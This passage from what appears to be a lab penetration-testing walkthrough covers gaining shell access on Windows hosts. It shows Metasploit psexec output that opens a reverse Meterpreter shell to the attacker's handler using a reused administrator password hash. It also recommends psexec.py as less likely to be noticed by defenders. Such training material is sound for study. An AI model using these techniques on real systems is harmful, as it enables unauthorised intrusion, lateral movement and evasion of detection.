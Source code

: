 We can then run the exploit with these settings to get a shell as user
`administrator`:

```
msf6 exploit(windows/smb/psexec) > run
[*] Started reverse TCP handler on 10.0.2.5:4444 
[*] 10.0.2.6:445 - Connecting to the server...
[*] 10.0.2.6:445 - Authenticating to 10.0.2.6:445 as user 'administrator'...
[*] 10.0.2.6:445 - Selecting PowerShell target
[*] 10.0.2.6:445 - Executing the payload...
[*] Sending stage (203846 bytes) to 10.0.2.6
[+] 10.0.2.6:445 - Service start timed out, OK if running a command or non-service executable...
[*] Meterpreter session 2 opened (10.0.2.5:4444 -> 10.0.2.6:58086) at 2025-08-02 04:24:11 -0400

meterpreter >
```

The dumped SAM file stemmed from `SPIDERMAN`, but we can still use it to get
access to `THEPUNISHER` since the password for `administrator` was reused for
several accounts! Same passwords lead to the same hash values that we can then
exploit across several machines.



### Python script psexec.py with password or password hash

The disadvantage of using `Metasploit` in a real life scenario is that it is
very noisy and can easily be picked up by a defender. We can also use a Python
script called `psexec.py` which works in the same fashion and is picked up a
lot less often. This is the **go-to solution** if we want to get a shell on a
machine. However, getting a shell on a computer is **oftentimes not necessary**
to compromise a domain. It can be helpful if we are looking for particular
information or if we are otherwise stuck.

Similar to `Metasploit`, we can either use a known password or a password hash
to get a shell with `psexec.py`.

<img src="./images/Gaining_Shell_Access_4.png" alt="Gaining Shell Access 4" width="800"/>
